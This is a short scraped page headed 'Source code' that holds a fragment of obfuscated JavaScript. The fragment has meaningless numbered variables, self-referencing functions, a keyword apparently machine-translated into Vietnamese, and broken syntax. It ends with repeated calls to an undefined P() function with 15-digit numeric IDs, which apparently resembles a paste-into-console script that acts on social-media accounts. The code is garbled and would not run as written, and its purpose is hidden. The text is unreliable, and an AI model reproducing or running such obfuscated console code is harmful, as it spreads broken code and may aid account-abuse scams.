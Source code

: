 autu-anh
========

var _6823; var _2352 =''; var _5804 = / [\ X41 \ x42 \ x43 \ x44 \ x45 \ x46] / var _9231 = 2; var _3367 = _2352.charAt (_2352.length-1); var _4414 var _6129 = _2352.split (_5804); var _6771 = '_7137'; Var _3533 = '_6771 = _4414'; chức năng _9138 (_7129) {_1459 (_2468); _9138 (_9984); _9984 (_3533); _9138 (_6771);} var _2468 = '_9138 = _1459' var _9984 = '_9984 = _9138'; _9138 (_3367); P("239814189529413");P("233811923462973");P("232566883587477");P("192335094277323");P("142803229230510");P("234441356733363");P("234258663418299");
